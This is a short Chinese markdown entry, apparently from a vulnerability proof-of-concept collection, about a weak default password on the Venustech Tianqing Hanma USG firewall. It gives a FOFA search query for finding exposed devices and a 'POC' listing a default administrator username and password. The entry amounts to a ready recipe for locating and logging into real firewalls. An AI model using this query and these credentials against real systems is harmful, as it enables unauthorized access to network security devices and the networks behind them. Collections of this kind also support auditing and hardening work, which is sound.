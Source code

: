 # 启明 天清汉马USG防火墙 弱口令

## 资产搜索
fofa title="天清汉马USG防火墙"

## POC
```shell
账号：useradmin
密码：venus.user
```